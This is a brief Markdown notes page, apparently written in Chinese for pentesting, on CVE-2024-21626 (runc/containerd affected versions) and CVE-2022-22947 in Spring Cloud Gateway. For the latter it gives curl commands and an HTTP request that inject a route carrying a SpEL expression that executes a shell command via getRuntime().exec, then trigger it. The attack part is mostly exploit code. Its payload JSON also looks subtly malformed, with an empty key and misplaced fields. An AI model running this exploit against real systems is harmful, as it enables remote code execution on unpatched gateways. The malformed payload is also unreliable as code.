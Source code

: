 ```yaml
---
title: CVE
---
```


# CVE

- https://www.cve.org/

## CVE-2024-21626

- containerd 1.5.13 - 1.6.20
- 1.0.0-rc93 <= runc <= 1.1.11
- https://help.aliyun.com/noticelist/articleid/1069353299.html

## CVE-2022-22947

- Java, SpringCloud Gateway
  - 3.1.0
  - 3.0.0-3.0.6
  - < 3.0

```bash
# 测试 gateway 是否开启 actuator 管理
curl -X POST http://gateway/actuator/gateway/refresh -v
```

**注入恶意路由**

```http
POST http://gateway/actuator/gateway/routes/pentest
Content-Type: application/json

{
  "id": "pentest",
  "filters": [
    {
      "name": "AddResponseHeader",
      "args": {
        "name": "X-Request-Foo",
        "": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
      },
      "uri": "http://httpbin.org/get",
      "predicates": [
        {
          "name": "Method",
          "args": {
            "_key_0": "GET"
          }
        },
        {
          "name": "Path",
          "args": {
            "_key_0": "/pentest"
          }
        }
      ]
    }
  ]
}
```

```bash
# 刷新
curl -X POST http://gateway/actuator/gateway/refresh -v
# 新的路由包含 X-Request-Foo: $(whoami)
curl -X POST http://gateway/pentest -v
```

**配置不同时满足即可**

```ini
management.endpoint.gateway.enabled=true # default value
management.endpoints.web.exposure.include=gateway
```

- https://spring.io/security/cve-2022-22947
- https://www.anquanke.com/post/id/269795
